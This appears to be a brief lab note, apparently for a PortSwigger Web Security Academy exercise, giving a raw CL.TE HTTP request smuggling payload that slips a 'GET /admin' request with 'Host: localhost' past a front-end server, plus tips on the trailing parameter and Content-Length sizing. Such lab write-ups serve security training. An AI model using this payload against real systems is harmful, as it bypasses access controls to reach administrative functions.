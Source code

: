 ![te cl multicase-smuggle](https://github.com/user-attachments/assets/1d8637cd-dcd7-4449-b923-8a5015f516d4)

## CL.TE

1) Set Automatic Content-Length.
2) 
```
POST / HTTP/1.1
Host: 0a1f00c9039d64f984fa09cc00200052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

h=
```

- `h=` because it will inject into a variable next standard `POST / HTTP/2`;
- Content-Length: 3 -// always +1 more than symbols in parameters.
